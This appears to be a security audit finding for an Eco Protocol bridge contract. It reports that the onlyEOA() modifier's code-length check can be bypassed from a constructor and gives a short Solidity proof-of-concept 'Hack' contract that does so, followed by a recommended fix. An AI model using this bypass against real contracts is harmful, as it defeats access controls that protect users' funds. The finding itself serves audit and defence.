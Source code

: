 chaithanya_gali

high

# onlyEOA() modifier does not stop deposits from contracts (avoid accidentally lost tokens)

## Summary
The onlyEOA() modifier actually fails to check if the msg.sender is a contract.

## Vulnerability Detail
The modifier onlyEOA(), fails to check if the msg.sender is a contract, as msg.sender.code.length == 0 ,fails when the it is in the constructor phase, the code.length is equal to 0.
Do not use the EXTCODESIZE check to prevent smart contracts from calling a function. This is not foolproof, it can be subverted by a constructor call, due to the fact that while the constructor is running, EXTCODESIZE for that address returns 0.

## POC 
      // SPDX-License-Identifier: MIT
      pragma solidity ^0.8.17;

       contract Target {
        function isContract(address account) public view returns (bool) {
         if(account.code.length == 0){
            return false;
           }
            return true;
        }

    bool public pwned = false;

     function protected() external {
        require(!isContract(msg.sender), "no contract allowed");
        pwned = true;
       }
     }

      contract Hack {
              bool public isContract;
              address public addr;

              // When contract is being created, code size (extcodesize) is 0.
              // This will bypass the isContract() check
            constructor(address _target) {
                    isContract = Target(_target).isContract(address(this));
                    addr = address(this);
                   // This will work
                   Target(_target).protected();
          }
       }


## Impact
The bridge fails to stop deposits from contracts (avoid accidentally lost tokens)

## Code Snippet
https://github.com/sherlock-audit/2023-05-ecoprotocol/blob/main/op-eco/contracts/bridge/L1ECOBridge.sol#L61-L65

## Tool used

Manual Review

## Recommendation
If you want to make sure that an externally owned account (EOA) is calling your contract, a simple way is require (msg.sender == tx.origin) .
